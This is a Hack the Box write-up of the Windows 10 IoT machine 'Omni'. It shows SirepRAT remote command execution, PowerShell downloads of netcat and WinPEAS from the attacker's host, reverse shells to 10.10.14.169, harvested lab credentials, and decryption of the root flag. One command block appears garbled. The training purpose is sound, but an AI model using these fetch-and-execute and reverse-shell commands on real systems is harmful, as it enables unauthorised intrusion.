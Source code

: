 +++
author = "Nick"
categories = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
date = 2021-01-09T15:08:51Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/10/info-1.png"
slug = "hack-the-box-omni"
summary = "Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!"
tags = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
title = "Hack the Box - Omni"

+++


Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!

As usual, `nmap` it: `nmap -sC -sV -p- -oA allscan 10.10.10.204`

Here are our results:
```
Nmap scan report for 10.10.10.204
Host is up (0.065s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=10/27%Time=5F98741B%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

```

We have some interesting ports. We see `IIS`, we have some kind of ARCserve service running as well. When we browse to port 8080 we get the auth prompt. The [default credentials](https://learn.adafruit.com/getting-started-with-windows-iot-on-raspberry-pi/prepare-raspberry-pi) are a no go. However, googling around does lead us to a tool that can break the box right open - [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

Now we could just rip the SAM from the machine and call it a day, but I don't think that's the intended method here ;). First we'll `git clone` the repo. The following command can give us some info on where to start looking for our flags.

Command:
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/C cd C:/ \&& dir /b/s *.txt" --v
```

This will tell us where our flags are located, thus giving us an idea of our targets and some user account info.

![](/images/2020/10/image-31.png)

Now we know some basic info and what we're after. How do we obtain it? We have the ability to upload files to the system, in this case we can upload `nc.exe` and get a shell back to us. Now there are a few things to remember in this case. We need a place to put it where we have access, luckily we [know those](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets#applocker-writable-windows-directories). We also need to ensure we format our command correctly and have a `SimpleHTTPServer` running on port 80.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -outfile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -uri 10.10.14.169/nc64.exe" --v
```

![](/images/2020/11/image.png)

We see that our `nc64.exe` file was downloaded to the location we specified. now we simply need to execute the application to shell back to us. First we'll start up out `netcat` listener.

Command:
`nc -lvnp 6666`

Next we'll execute the command to connect back to us.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\> python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.169 6666 -e powershell.exe" --v
```

![](/images/2020/11/image-1.png)

We get our shell back instantly. Now we'll download an enumeration script and see what we can find. In this case we downloaded `WinPEAS`.

Command:
`invoke-webrequest -outfile 'C:\Windows\system32\spool\drivers\color\wp.bat' -uri 10.10.14.169/winPEAS.bat`

Running this files doesn't really help us much though. It's missing some components that are not included in the IoT Windows 10 version. Looks like we'll enumerate by hand. The first thing I did was search for `.bat` and `.txt` files.

Command:
`get-childitem -Path C:\ -Include *.bat* -recurse -erroraction Silentlycontinue`

Nothing too useful there. We'll repeat the steps this time, with hidden flag enabled as well as a time filter. We essentially want items that have been modified after the creation of the box. This way we can eliminate potential junk files from an image.

Command:
`get-childitem -Path C:\ -include *.bat*,*.txt* -recurse -erroraction silentlycontinue -hidden| ? {$_.lastwritetime -gt '8/20/20'}`

This finds an interesting file - `r.bat` - in an interesting location.

![](/images/2020/11/image-2.png)

When we look in the file, we see some credentials!

![](/images/2020/11/image-3.png)

Now with some credentials, we can try to access that page being hosted on `8080`. Sure enough, we get in!

![](/images/2020/11/image-4.png)

Now poking around this system, we see there is a function to run commands. Well great but it's possible that we are going to only run our command as our current user. Now, we can try to login to this portal as the administrator credentials that we just found. Sure enough, they work! Now, we can run commands as administrator! Let's create another shell back, this time with admin priv's.

Command:
`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.169 7777 -e powershell.exe`

We also want to ensure that we have our listener running.

Command:
`nc -lvnp 7777`

![](/images/2020/11/image-5.png)

Sure enough, we catch our shell back!

![](/images/2020/11/image-6.png)

With admin at our disposal, we check the `root.txt` file. Looks like it's a XML file that needs to be run through powershell to get the value. Fun. We can quickly get our value by using `import-clixml`, you can read up on that [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/import-clixml?view=powershell-7).

Commands:
`$cred = import-clixml -Path C:\Data\Users\Administrator\root.txt`
`$cred.GetNetworkCredential().Password`

I suppose you could have done this first when you get access as `app`, but when I realized you could run commands as app, I jumped right to `admin`. You need to log into the app portal as `app` with `mesh5143` as the password, and catch a shell there as well.



